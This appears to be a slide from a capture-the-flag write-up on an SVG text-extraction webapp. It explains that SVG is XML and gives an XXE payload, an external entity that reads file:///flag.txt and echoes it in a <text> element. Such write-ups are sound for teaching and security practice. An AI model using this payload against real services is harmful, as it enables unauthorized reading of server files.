

# SVG Text Extractor
A simple webapp that extracts the content of <text> tags from SVG images
SVG images are XML documents…
So this is an XXE challenge
The hardest part of this one is just finding a minimal, well-formed SVG that has a <text> tag
Then just add:
<!DOCTYPE bar [ <!ENTITY foo SYSTEM "file:///flag.txt"> ]>
<text> &foo; </text>